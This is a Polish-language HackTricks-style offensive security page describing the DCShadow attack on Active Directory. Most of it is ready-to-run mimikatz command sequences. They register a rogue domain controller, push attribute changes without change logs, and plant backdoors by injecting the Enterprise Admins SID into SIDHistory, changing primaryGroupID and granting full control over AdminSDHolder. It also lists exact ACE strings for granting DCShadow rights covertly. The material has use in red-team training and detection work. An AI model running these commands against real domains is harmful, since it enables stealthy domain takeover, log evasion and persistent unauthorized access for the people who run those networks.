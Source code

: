 {{#include ../../banners/hacktricks-training.md}}

# DCShadow

Rejestruje **nowy kontroler domeny** w AD i używa go do **wypychania atrybutów** (SIDHistory, SPNs...) na określonych obiektach **bez** pozostawiania jakichkolwiek **logów** dotyczących **zmian**. Musisz mieć uprawnienia **DA** i być w **domenie głównej**.\
Zauważ, że jeśli użyjesz błędnych danych, pojawią się dość brzydkie logi.

Aby przeprowadzić atak, potrzebujesz 2 instancji mimikatz. Jedna z nich uruchomi serwery RPC z uprawnieniami SYSTEM (musisz tutaj wskazać zmiany, które chcesz wprowadzić), a druga instancja będzie używana do wypychania wartości:
```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
Zauważ, że **`elevate::token`** nie zadziała w sesji `mimikatz1`, ponieważ podnosi uprawnienia wątku, ale musimy podnieść **uprawnienia procesu**.\
Możesz również wybrać obiekt "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Możesz wprowadzić zmiany z DA lub z użytkownika z minimalnymi uprawnieniami:

- W **obiekcie domeny**:
- _DS-Install-Replica_ (Dodaj/Usuń replikę w domenie)
- _DS-Replication-Manage-Topology_ (Zarządzaj topologią replikacji)
- _DS-Replication-Synchronize_ (Synchronizacja replikacji)
- Obiekt **Sites** (i jego dzieci) w **kontenerze konfiguracji**:
- _CreateChild i DeleteChild_
- Obiekt **komputera, który jest zarejestrowany jako DC**:
- _WriteProperty_ (Nie Write)
- Obiekt **docelowy**:
- _WriteProperty_ (Nie Write)

Możesz użyć [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1), aby nadać te uprawnienia użytkownikowi bez uprawnień (zauważ, że pozostawi to pewne logi). To jest znacznie bardziej restrykcyjne niż posiadanie uprawnień DA.\
Na przykład: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Oznacza to, że nazwa użytkownika _**student1**_ zalogowana na maszynie _**mcorp-student1**_ ma uprawnienia DCShadow do obiektu _**root1user**_.

## Używanie DCShadow do tworzenia backdoorów
```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - Przyznaj uprawnienia DCShadow za pomocą DCShadow (bez zmodyfikowanych logów uprawnień)

Musimy dodać następujące ACE z SID naszego użytkownika na końcu:

- Na obiekcie domeny:
- `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
- `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- Na obiekcie komputera atakującego: `(A;;WP;;;UserSID)`
- Na obiekcie użytkownika docelowego: `(A;;WP;;;UserSID)`
- Na obiekcie Sites w kontenerze Configuration: `(A;CI;CCDC;;;UserSID)`

Aby uzyskać aktualny ACE obiektu: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Zauważ, że w tym przypadku musisz wprowadzić **kilka zmian,** a nie tylko jedną. Tak więc, w **sesji mimikatz1** (serwer RPC) użyj parametru **`/stack` z każdą zmianą,** którą chcesz wprowadzić. W ten sposób będziesz musiał tylko **`/push`** raz, aby wykonać wszystkie zablokowane zmiany na fałszywym serwerze.

[**Więcej informacji o DCShadow na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{{#include ../../banners/hacktricks-training.md}}
